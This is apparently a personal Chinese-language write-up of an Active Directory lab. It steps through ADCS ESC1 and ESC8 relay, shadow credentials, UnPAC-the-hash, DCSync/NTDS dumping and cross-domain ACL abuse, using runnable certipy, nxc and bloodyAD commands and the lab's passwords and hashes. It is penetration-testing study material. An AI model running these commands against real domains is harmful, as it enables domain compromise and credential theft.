- **配置名字（CA Name / CN）**：是 **CA 在 AD 里的对象名**，也就是你在 `nxc` 输出里看到的 **`SEVENKINGDOMS-CA`**。它是这个 CA 的“唯一标识”，用来在 AD 里区分不同的 CA。

### 证书认证：

###### 证书认证用一对公钥/私钥替代了共享密钥。你通过用私钥签名数据来证明身份

###### 它在域控不可达时也能用，因为证书本身就携带了身份证明。

###### 它实现了无密码登录，比如智能卡或 Windows Hello

###### 它支持跨平台认证，让 Linux、macOS 和网络设备也能加入 Windows 域，不依赖 Kerberos 密码支持。

### ADCS Web 注册接口的默认 URL 是 `http://<主机>/certsrv/`

```
http://braavos.essos.local/certsrv/
```

#### 需要认证       HTTP 401 means "Unauthorized."


向essos的域控枚举证书模板，必须用域用户

```bash
 certipy find -u 'sql_svc' -p 'YouWillNotKerboroast1ngMeeeeee' -dc-ip 192.168.56.12 -vulnerable -text -json -output ADCS
```

过滤,  `.*`是匹配任意字符，-A 输入从这行开始的下面 多少行

```bash
grep -A 40 'Template Name.* ESC1' ADCS_Certipy.txt
```


Vulnerabilities字段给了利用条件


##### 申请证书

```bash
certipy req -u 'sql_svc' -p 'YouWillNotKerboroast1ngMeeeeee' -dc-ip 192.168.56.12 -ca 'ESSOS-CA' -template 'ESC1' -upn 'administrator@essos.local' -out esc1_admin -debug
```


管道打开失败了，可能是域控没开这个CA服务，一般管道都是打开的


###### 用nxc ldap向域控查询 看一下CA机构在哪台机子，可以看出CA是在成员服务器上

```bash
 certipy req -u 'sql_svc' -p 'YouWillNotKerboroast1ngMeeeeee' -dc-ip 192.168.56.23 -ca 'ESSOS-CA' -template 'ESC1' -upn 'administrator@essos.local' -out esc1_admin
```

### 这次-dc-ip 是指CA所在的电脑ip，不是指域控ip

- **`find`**：`-dc-ip` 填**域控**（要查 LDAP）。

- **`req` / `auth`**：`-dc-ip` 填 **CA 所在主机**（要连证书服务）。

- **`auth`**：严格来说，PKINIT 认证需要连 **KDC**，也就是域控。但 Certipy 会自动根据证书里的信息去正确的 KDC 认证，所以通常填哪个都能跑通。

**`-dc-ip` 是个“万能目标参数”，填什么取决于子命令要连什么服务**

开始证书认证

```bash
certipy auth -pfx 'esc1_admin.pfx' -dc-ip 192.168.56.12
```


KDC_ERR_PADATA_TYPE_NOSUPP说明

KDC 本身不支持 PKINIT 这种预认证类型

根本原因：**那台 DC 自己没有 KDC 证书**

但是后面重启所有靶机再走kerberos证书认证时候又能通了，所以不是PKINIT没开，可能是服务没加载好


```
KDC_ERR_CLIENT_NAME_MISMATCH (0x24)  →  强映射拒绝
KDC_ERR_PADATA_TYPE_NOSUPP           →  PKINIT 本身不支持
```

```powershell
certutil -dcinfo
```


```
KDC 证书的模板通常是：

- KerberosAuthentication（新）
- DomainController（旧，兼容）
```

#### 那就转ldaps做Schannel认证

域控的 **LDAPS（636 端口）** 支持 **Schannel** 认证。Schannel 是微软的 TLS 实现，它允许你在 TLS 握手阶段**直接把客户端证书发给服务器**来证明身份(双向验证)

```bash
certipy auth -pfx 'esc1_admin.pfx' -dc-ip 192.168.56.12 -ldap-shell
```


LAPS 全称是 **Local Administrator Password Solution**，也就是“本地管理员密码解决方案”。它的核心作用，是给每台域内电脑的本地管理员账户，**自动生成一个独一无二的随机密码**，然后把密码安全地存到 Active Directory 里（`很多公司为了省事，会把所有电脑的本地管理员密码设成一样的`）

一台电脑加入 LAPS 管理后，会按这个流程走

1. **生成密码**：电脑在本地生成一个符合复杂度要求的随机密码。

2. **改密码**：用这个新密码，把**本地 Administrator 账户**的密码改掉。

3. **存 AD**：把新密码和过期时间，加密后存到自己在 AD 里的**计算机对象**属性上。

4. **定期轮换**：过期后，重复第一步，生成新密码。

**默认不开启。LAPS 需要管理员手动部署、扩展 AD 架构、配置组策略或 CSP，才会生效**

试一下是否开启LAPS，


##### 开启 ，  直接查询到密码，但是密码失败了，因该是读了个过期的密码

```bash
nxc smb 192.168.56.23 -u 'Administrator' -p 'bC{(0)/m#YC]!4' --local-auth
```


那就添加一个新用户，把用户写入Domain admin组


hacker : @Vco}jGQe)K@JpU


成功了，开始dump NTDS.dit


可以看到我们之前创建的用户

## Domain Admins 通常**能**登录大多数成员服务器和工作站

用Domain Admins 用户爆破成员服务器rid , hacker这个账户不在.23这台电脑存在哦

```bash
nxc smb 192.168.56.23 -u 'hacker' -p '@Vco}jGQe)K@JpU' --rid-brute
```


直连的，没有信任关系

##### 用ESC8漏洞NTLM中继到证书注册是web接口

##### http://ip或者域名`/certsrv/certfnsh.asp`

###### 开启中继监听

```bash
sudo certipy relay -target http://192.168.56.23/certsrv/certfnsh.asp -template DomainController
```


成功 申请到 机器用户meereen$的证书

开始认证

```bash
certipy auth -pfx 'meereen.pfx' -dc-ip 192.168.56.12
```


**`certipy auth` 拿 NT hash 的核心，是 PKINIT 认证时 KDC 会把账户的 NTLM 哈希“封存”在 TGT 的 PAC 里。`certipy` 用一个特殊的 U2U 请求把这张票“撬开”，把哈希掏出来。**

### 🎯 第一步：PKINIT 认证，KDC 在 TGT 里“夹带”了哈希

**证书认证通过后，返回的TGT塞进了一个叫 `PAC_CREDENTIAL_INFO` 的结构**。

这个结构里，证书的主体用户 的NTLM 哈希。这是微软的刻意设计：为了让账户在遇到不支持 Kerberos 的服务器时，能无缝回退到 NTLM 认证。

### 🎯 第二步：用 TGT 请求一张“给自己”的服务票据（User-to-User）

U2U（User-to-User）认证的核心。服务或者用户，用自己已有的 TGT，向 KDC 申请一张“访问自己”的ST，KDC 会用目标服务密钥加密ST,然后拿到ST,直接解密

###### dump这个域控的NTDS.dit

```bash
nxc smb 192.168.56.12 -u 'meereen$' -H '805a77d8fa6aecd75f012ab08451b195' --ntds
```

这个是走DCSync,这个机器用户不是管理员组的


机器用户连rpc都用不了，权限很低

在 AD 里，**域控之间需要互相复制数据**，包括用户密码哈希。为了让这件事能自动完成，微软给**所有域控的机器账户**授予了以下两个权限：

- **`Replicating Directory Changes`**

- **`Replicating Directory Changes All`**

- **域控之间**：正常的 DRSUAPI 复制，用于数据同步。

- **攻击者**：用同样的 DRSUAPI 协议，伪装成域控，把数据“偷”出来。这就是 DCSync。

##### Shadow Crendentail:

### 核心原理：滥用“密钥信任”模型

Windows Hello for Business（WHfB）支持无密码登录，其底层是“密钥信任”（Key Trust）模型。用户的公钥存储在 AD 对象的 `msDS-KeyCredentialLink` 属性中

当你进行 PKINIT 预认证时，KDC 会用这个属性里的公钥来验证你的身份。**谁拥有对应的私钥，谁就能以该对象的身份通过认证**

攻击者如果拥有修改此属性的权限（如 `GenericWrite`、`GenericAll`），就能把**自己的公钥**写进去，从而获得该对象的“登录密钥

##### **攻击步骤**：

1. **添加凭据**：工具生成密钥对，将公钥写入目标对象的 `msDS-KeyCredentialLink`

2. **获取 TGT**：用私钥通过 PKINIT 向 KDC 申请 TGT

3. **提取哈希**：利用 U2U 请求，从 TGT 的 PAC 中提取目标的 **NTLM 哈希**

#### 处理PKINIT请求时

```
AS-REQ 里的公钥  ==  msDS-KeyCredentialLink属性里的公钥？
     ↓ 匹配
直接签发 TGT，不验证 CA 签名
```

发现根域有个用户属于外部组


#### 这个用户的域居然还是essos.local

再看一下这个用户的所属组，居然属于是essos.local 的domain admins组


### 外部用户是“权限占位符”

AD 的权限模型基于 SID。当你把 `essos.local` 的用户加进 `sevenkingdoms.local` 的某个组时，`sevenkingdoms.local` 的域控不能直接存那个用户的对象，它只能创建一个 **`foreignSecurityPrincipal` 对象**，里面只存那个用户的 **SID**

这个 FSP 对象的作用是：让本域的权限系统能“引用”一个外部用户，从而在组权限里包含它，所以，外部用户 = **“权限列表里的一个引用指针”**。

这个外部用户所属于组可以完全控制根域dc的计算机账户kingslanding$


######可以利用Shadow Crendential攻击： 注入攻击者密钥到KINGSLANDING$ 对象的msDS-KeyCredentialLink属性里，User-to-User解密机器用户密钥

##### kerberos处理PKINIT请求时

```
AS-REQ 里的公钥  ==  msDS-KeyCredentialLink属性里的公钥？
     ↓ 匹配
直接签发 TGT，不验证 CA 签名
```

```
注入密钥 → PKINIT 拿 TGT → U2U 请求 → 从 PAC 里 UnPAC-the-hash -> DCSync
```

#### 跨域用户要指定所属域

```
跨域用户 → KINGSLANDING
  NTLM 认证请求里带着 domain=ESSOS
      ↓
  SEVENKINGDOMS 通过域信任转发给 ESSOS DC 验证
      ↓
  ESSOS DC 验证 hash → 返回结果
```


#### 影子凭证攻击

```bash
certipy shadow auto -u 'daenerys.targaryen@essos.local' -hashes :34534854d33b398b66684072224bb47a -account 'KINGSLANDING$' -dc-ip 192.168.56.10 -dc-host 'KINGSLANDING.SEVENKINGDOMS.LOCAL'
```


##### 然后利用计算机账户的DCSync dump出NTDS.dit 里的凭据就好了

## 到嵌套组利用了，和外部成员是不同的两种跨域用户类型

- **GenericWrite（写入属性）**：权限范围是**组的属性**。它允许你修改组对象的可写属性，比如 `member` 属性。你可以用它把自己或控制的账户**直接加入这个组**，获得组的权限

- **WriteDacl（写入 DACL）**：权限范围是**组的权限控制列表**。它允许你修改这个组的**访问控制列表（DACL）**。简单说，你能**重新定义“谁对这个组有什么权限”，比如定义一个对象对这个组的属性有Write权限**


joffrey.baratheon 是sevenkingdoms.local 域用户，不属于essos.local域，从sevenkingdoms.local dc dump出的这个用户hash,需要走信任关系，才能向essos.local认证 


###### 这个用户是不属于essos.local,但是利用信任关系能枚举,essos.local域的信息


###### 这个抓包只能在虚拟机.12或者.10这两台机器里用wireshark抓包才能看到用信任关系认证，在宿主机上只能看到


###### 42包后，应该是.12用信任关系向.10发送这个认证请求，.10认证成功这个用户后，再用信任关系告诉.12, 然后.12 放行 我们登录

##### **流量走的是 `vboxnet0` 内部的交换机路径，每个端口下都对应着一个mac地址。** 网卡只是交换机上的一个普通端口（数据链路层）

### 所以宿主机跑的wireshark抓不到.10和.12通信的包


##### 这是我们的网卡的mac地址


##### 再对braavos$这个计算机账户做一个影子凭据攻击，拿下hash,然后DCSync

##### 但是这次我们用关闭预认证做AS-REP roasting攻击，但是

**对机器账户做 AS-REP Roasting 基本没有意义，密码破解出来的概率极低**

机器账户的密码不是由人设置的，而是**由客户端自己随机生成的**

- **长度极长**：通常长达 **120 个字符**，随机生成

- **自动轮换**：默认**每 30 天**自动更换一次密码

- **不可见**：密码对用户和管理员都不可见，无法手动设置。

##### 所以还是影子凭据拿hash吧

同上跨域用户也需要指定所认证的域tyron.lannister  -d 'sevenkingdoms.local'

上面看到对braavos$能修改他的属性，注入攻击这密钥

```bash
nxc ldap 192.168.56.12 -u 'tyron.lannister' -H 'b3b3717f7d51b37fb325f7e7d048e998' -d 'sevenkingdoms.local' -M shadow-creds -o TARGET=braavos$ ACTION=add
```


PFX: /home/neon/.nxc/modules/shadow-creds/braavos_70d58194-a83b-d005-b82f-398b8a995c6f.pfx


```
SPYS 组 ──GenericAll──→ JORAH.MORMONT
    ↑
  成员 A
  成员 B       ← 这三个人都对 JORAH.MORMONT 有 GenericAll
  成员 C
```

#### 可以用影子凭证拿 JORAH.MORMONT 的凭据，然后获得essos.local的立足点（需要开PKINIT）

##### 也可以关闭JORAH.MORMONT预认证属性， 做 AS-REP roasting 攻击

##### 还可以给这个用户加上spn, 做Kerberoasting攻击

###### 或者直接修改密码属性（改密码）

###### 还有很多横向的方法

### 

### 现在用影子凭据

 先用Writeall  加个 Write 属性 给攻击攻击者用户

```bash
bloodyad -u 'joffrey.baratheon' -p ':3b60abbc25770511334b3829866b08f1' -d sevenkingdoms.local --dc-ip 192.168.56.10 add genericAll '目标用户' '控制者'
```

##### 杂项 ACL 操作和属性修改，bloodyAD 是当前最顺手的工具

##### 然后用nxc 修改目标

##### `msDS-KeyCredentialLink`属性，即加入攻击者密钥

```bash
nxc ldap 192.168.56.10 -u 'JOFFREY.BARATHEON' -H '3b60abbc25770511334b3829866b08f1' -M shadow-creds -o TARGET=TYRON.LANNISTER ACTION=add
```

#### 然后用certipy开始PKINIT认证拿hash

```bash
certipy auth -pfx '/home/neon/.nxc/modules/shadow-creds/TYRON.LANNISTER_57f72dfd-4be6-a06d-0c8f-a9039379b20d.pfx' -username 'TYRON.LANNISTER' -domain 'sevenkingdoms.local' -dc-ip 192.168.56.10
```


###### 一定要给username和domain


